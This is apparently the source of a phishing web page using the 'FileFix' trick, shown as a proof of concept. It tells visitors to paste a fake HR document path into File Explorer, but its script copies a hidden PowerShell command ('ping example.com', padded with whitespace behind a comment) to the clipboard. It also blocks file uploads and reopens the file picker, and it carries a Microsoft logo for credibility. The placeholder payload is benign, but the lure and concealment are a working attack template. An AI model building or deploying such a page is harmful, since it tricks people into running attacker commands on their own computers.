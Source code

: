 ```html
        <li style="margin-bottom: 10px;">
          Copy the file path below
          <div class="code-block" id="path" onclick="this.classList.add('clicked')">
            C:\company\internal-secure\filedrive\HRPolicy.docx
          </div>
        </li>
        <li style="margin-bottom: 10px;">Open File Explorer and select the address bar (<strong>CTRL + L</strong>)</li>
        <li style="margin-bottom: 10px;">Paste the file path and press <strong>Enter</strong></li>
      </ol>
    </div>

    <input type="file" id="fileInput" style="display: none;">
    <button id="fileExplorer">Open File Explorer</button>

    <div class="footer">
      <img src="https://upload.wikimedia.org/wikipedia/commons/4/44/Microsoft_logo.svg" alt="Microsoft">
    </div>
  </div>
    <script>
    const fileInput = document.getElementById('fileInput');
    const fileExplorer = document.getElementById('fileExplorer');
    const path = document.getElementById('path');

    // Copy the powershell command if they click on the dummy file path
    // In case the user tries to be smart and open file explorer manually
    path.addEventListener('click', function() {
        navigator.clipboard.writeText("Powershell.exe -c ping example.com                                                                                                                # C:\\company\\internal-secure\\filedrive\\HRPolicy.docx                                                                    ");
    });

    // Copy powershell command & open file explorer
    fileExplorer.addEventListener('click', function() {
        navigator.clipboard.writeText("Powershell.exe -c ping example.com                                                                                                                # C:\\company\\internal-secure\\filedrive\\HRPolicy.docx                                                                    ");

      fileInput.click();
    });

  // Block any attempted file uploads
  fileInput.addEventListener('change', () => {
    alert("Please follow the stated instructions.");
    fileInput.value = "";
    setTimeout(() => fileInput.click(), 500);
});
  </script>
</body>
</html>
```
